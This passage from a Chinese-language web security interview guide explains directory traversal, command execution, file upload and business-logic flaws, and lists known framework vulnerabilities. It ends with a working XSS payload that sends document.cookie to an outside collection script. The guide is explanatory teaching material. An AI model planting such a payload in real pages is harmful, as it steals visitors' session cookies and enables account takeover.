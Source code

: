 ### 10. 目录遍历漏洞

攻击者向 Web 服务器发送请求，通过在 URL 中或在有特殊意义的目录中附加 `../`、或者附加 `../` 的一些变形（如 `..\` 或 `..//` 甚至其编码），导致攻击者能够访问未授权的目录，以及在 Web 服务器的根目录以外执行命令。

### 11. 命令执行漏洞

命令执行漏洞是通过 URL 发起请求，在 Web 服务器端执行未授权的命令，获取系统信息、篡改系统配置、控制整个系统、使系统瘫痪等。

### 12. 文件上传漏洞

如果对文件上传路径变量过滤不严，并且对用户上传的文件后缀以及文件类型限制不严，攻击者可通过 Web 访问的目录上传任意文件，包括网站后门文件（`webshell`），进而远程控制网站服务器。

所以一般需注意：

- 在开发网站及应用程序过程中，需严格限制和校验上传的文件，禁止上传恶意代码的文件
- 限制相关目录的执行权限，防范 `webshell` 攻击

### 13. 其他漏洞

- SSLStrip 攻击
- OpenSSL Heartbleed 安全漏洞
- CCS 注入漏洞
- 证书有效性验证漏洞

### 14. 业务漏洞

一般业务漏洞是跟具体的应用程序相关，比如参数篡改（连续编号 ID / 订单、1 元支付）、重放攻击（伪装支付）、权限控制（越权操作）等。

另外可以参考：[6种常见web漏洞坑](https://blog.csdn.net/xueshao110/article/details/78912988)

### 15. 框架或应用漏洞

- WordPress 4.7 / 4.7.1：REST API 内容注入漏洞
- Drupal Module RESTWS 7.x：Remote PHP Code Execution
- SugarCRM 6.5.23：REST PHP Object Injection Exploit
- Apache Struts：REST Plugin With Dynamic Method Invocation Remote Code Execution
- Oracle GlassFish Server：REST CSRF
- QQ Browser 9.6：API 权限控制问题导致泄露隐私模式
- Hacking Docker：Registry API 未授权访问

## 38、Web应用常见的安全漏洞有哪些？

[Web应用常见的安全漏洞](# 37、常见的Web漏洞有哪些？)

## 39、能否解释一下XSS cookie盗窃是什么意思？

攻击者利用XSS在网站中插入恶意脚本，一旦用户访问该网页，cookie就会自动地发送到攻击者的服务器中去。

构造恶意js代码插入到页面中

```
<script>
document.write('<img src="http://192.168.211.1/xSS/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 /> ');
</script>
```
